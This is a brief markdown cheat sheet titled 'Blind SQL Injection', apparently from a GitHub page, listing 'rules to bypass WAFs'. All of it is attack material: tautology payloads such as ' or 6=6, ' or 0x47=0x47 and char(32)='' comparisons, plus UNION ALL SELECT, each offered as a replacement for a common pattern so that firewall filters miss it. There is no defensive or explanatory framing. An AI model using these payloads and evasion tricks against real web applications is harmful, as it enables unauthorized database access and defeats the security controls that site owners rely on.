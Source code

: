 <h1>$${\color{red}Blind} \space {\color{Goldenrod}SQL}\space {\color{blue}Injection}$$</h1>

## Simple Rules to Bypass WAFs


### 1. Instead of using:

```' or 1=1```

### The best choice is:

```
' or 6=6
' or 0x47=0x47
or char(32)=''
or 6 is not null
```

--------------

## SQL Injection

### 2. Instead of using:

```UNION SELECT```

### The best choice is:

```
UNION ALL SELECT
```
